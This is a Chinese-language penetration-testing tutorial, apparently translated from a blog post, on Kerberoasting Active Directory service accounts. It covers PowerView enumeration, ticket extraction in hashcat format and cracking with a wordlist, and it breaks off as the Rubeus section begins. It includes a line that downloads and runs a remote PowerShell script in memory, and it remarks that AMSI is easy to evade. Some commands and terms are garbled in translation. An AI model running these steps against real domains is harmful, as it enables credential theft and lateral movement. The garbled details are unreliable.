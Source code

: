 ## 枚举

首先让我们导入 PowerView.ps1 到内存中  
IEX (New-Object Net.WebClient).DownloadString('[http://werbserver:80/PowerView.ps1](http://werbserver/PowerView.ps1)')  
当然 AMSI 可能会发现这一点，WIN10 1803 但我会把逃避留给你自己。我的仓库中有很多绕过方法 h4cks，网上也有很多绕过方法。AMSI 只是字符串检测，所以很容易溜过去。  
现在，在加入域的计算机上内存中使用 PowerView，我们可以简单地运行

```plain
Get-DomainUser -SPN
$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)
```

```plain
Get-DomainUser -SPN -Credential $cred
```

就是这样！它将返回设置了 SPN 值的所有用户。

## 开发

现在，随着目标服务帐户在我们的范围内，我们实际上可以请求破解票证，这再简单不过了 PowerView.ps1  
只需简单地运行以下命令

```plain
Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred
```

NTLM 这将返回使用目标帐户的哈希值加密的 SPN 票证。请记住，我选择 Hashcat 而不是 John，因为我使用 Nvidia 破解设备，但使用 Hashcat 效果更好。  
现在我们可以简单地破解类似的东西  
hashcat64.exe -a -m 13100 SPN.hash /wordlists/rockyou.txt  
当然，这是简单的破解攻击，因为它只是针对一个简单的单词列表，但如果这是在现实世界中，您将通过规则集和更可能的单词列表进行混合。

## Rubeus

其次，我们有 Rubeus，这是一个由 SpectreOps 的向导开发和发布的相对较新的工具。  
Rubeus 实际上是一种 Kerberos 攻击工具，我们将在本文中详细介绍它，它是用 C#/.NET 开发的，这意味着防御者更难检测到它，它是使用 Cobalt 之类的反射加载的，execute-assembly 或者 SILENTTRINITY.您也可以从以下位置反射加载它：PowerShell，但我将.NET 在以后的文章中更详细地介绍。  
[https://github.com/GhostPack/Rubeus\`](https://github.com/GhostPack/Rubeus%60)

## 枚举

现在默认情况下，我不相信 Rubeus 具有 Enumerate 简单地枚举具有 SPN 值集的用户的功能，但说实话，这对于 Kerberoasting 来说并不是困难的部分，只需使用一点 Powershell / LDAP Magic，您就可以找到您想要的内容。以下是一些示例。

```plain
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
(servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt
```

还有更多技术，例如 Get-DomainUser -SPN 上面讨论的技术以及许多其他方法，我将留给您想象。  
现在我们已经有了目标帐户，启动 Rubeus。

